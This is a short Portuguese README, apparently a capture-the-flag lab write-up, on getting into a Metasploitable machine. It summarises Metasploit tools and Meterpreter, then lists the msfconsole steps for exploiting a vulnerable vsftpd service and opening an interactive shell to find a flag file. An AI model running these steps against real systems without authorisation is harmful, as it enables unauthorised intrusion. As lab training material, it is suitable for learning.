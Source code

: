 # Acesso_Remoto_A_Metasploit

Acessando remotamente uma máquina Metasploit (capture the flag)

## Ferramentas do Metasploit

`msfconsole`; Console de modo.

`msfweb`; Interface gráfica via navegador.

`msfpayload`; Gerar e personalizar cargas úteis.

`msfcli`; Interface de automatização de invasão.

`msflogdump`; Exibirá as sessões de arquivos abertos.

### Payloads

**Módulos para explorar, sendo de três tipos.**

`Single`: Apenas um pacote enviado sem conexão com o atacante.

`Stoges`: Insira o módulo de ação.

#### Meterpreter

Ou meta-interpreter, é um payload que funciona por injeção de dll.
O MeterPreter reside na memória do hospedeiro e não deixa vestígios no disco rígido.

##### Acessando a máquina MSF

> Desafio: Encontrar o arquivo Flag.txt apartir de outra máquina.

Na Máquina Kali acessamos o Metasplo.

`msfconsole`;

Procuraremos pelo Tpd de nossa máquinha alvo, uma versão antiga e vulnerável, porém ainda muito utilizada.

`search vsTpd`;

Configurando o IP de destino.

`show options`;

`set RHOST + IP da máquina alvo`;

Para verificar o endereço de IP

`ip addr`;

Configurando os Payloads.

`show payloads`;

`set payload payload/cmd/unix/interact`;

Iniciando a aplicação.

`exploit`;

![Metasploit](https://github.com/IsaelCampos/Acesso_Remoto_A_Metasploit/assets/149100120/097c2198-856b-4635-9d50-03debf9b0534)

